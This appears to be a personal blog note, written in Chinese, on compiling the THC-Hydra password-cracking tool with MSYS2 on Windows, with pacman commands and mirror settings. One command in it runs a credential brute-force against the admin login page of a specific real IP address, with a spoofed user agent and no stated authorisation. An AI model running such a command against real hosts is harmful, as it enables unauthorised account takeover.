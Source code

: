 ```yaml
---
author: XhstormR
tags:
- Notes
date: 2019-03-01T14:11:28+08:00
title: 构建 hydra
---
```


<!--more-->

Updated on 2019-03-01

> [MSYS2](https://mirrors.tuna.tsinghua.edu.cn/msys2/distrib/msys2-x86_64-latest.tar.xz)
>
> [hydra](https://github.com/vanhauser-thc/thc-hydra/archive/master.zip)

## Step
```bash
D:\Work\Download\thc-hydra-master>

pacman -Syu
pacman -S --noconfirm --needed gcc make openssl-devel

./configure && make

hydra -V -F -L username.txt -P password.txt -o ok.txt -t 20 'http-post-form://222.69.159.53:80/cm_admin/login.aspx:txtloginid=^USER^&txtpsw=^PASS^:F=password incorrect!:H=User-Agent\: wget'
```

```bash
pacman -F  jq.exe #搜索软件包（By File）
pacman -Ss gcc    #搜索软件包（By Name）
pacman -Sg mingw-w64-x86_64-toolchain mingw-w64-i686-toolchain #查看软件组
```

```bash
echo 'Server = https://mirrors.tuna.tsinghua.edu.cn/msys2/msys/$arch/' > /etc/pacman.d/mirrorlist.msys
echo 'Server = https://mirrors.tuna.tsinghua.edu.cn/msys2/mingw/i686/' > /etc/pacman.d/mirrorlist.mingw32
echo 'Server = https://mirrors.tuna.tsinghua.edu.cn/msys2/mingw/x86_64/' > /etc/pacman.d/mirrorlist.mingw64
pacman -Sy
```

## Reference
* 依赖：
  * msys-2.0.dll：[src](https://mirrors.tuna.tsinghua.edu.cn/msys2/msys/sources/msys2-runtime-3.0.7-3.src.tar.gz) | [bin](https://mirrors.tuna.tsinghua.edu.cn/msys2/msys/x86_64/msys2-runtime-3.0.7-3-x86_64.pkg.tar.xz)
  * msys-z.dll：[src](https://mirrors.tuna.tsinghua.edu.cn/msys2/msys/sources/zlib-1.2.11-1.src.tar.gz) | [bin](https://mirrors.tuna.tsinghua.edu.cn/msys2/msys/x86_64/zlib-1.2.11-1-x86_64.pkg.tar.xz)
  * msys-ssl-1.1.dll, msys-crypto-1.1.dll：[src](https://mirrors.tuna.tsinghua.edu.cn/msys2/msys/sources/openssl-1.1.1.c-1.src.tar.gz) | [bin](https://mirrors.tuna.tsinghua.edu.cn/msys2/msys/x86_64/libopenssl-1.1.1.c-1-x86_64.pkg.tar.xz)
* https://www.msys2.org/
* https://packages.msys2.org/group/
* https://mirrors.ustc.edu.cn/help/msys2.html
* https://github.com/msys2/MSYS2-packages/tree/master/pacman-mirrors
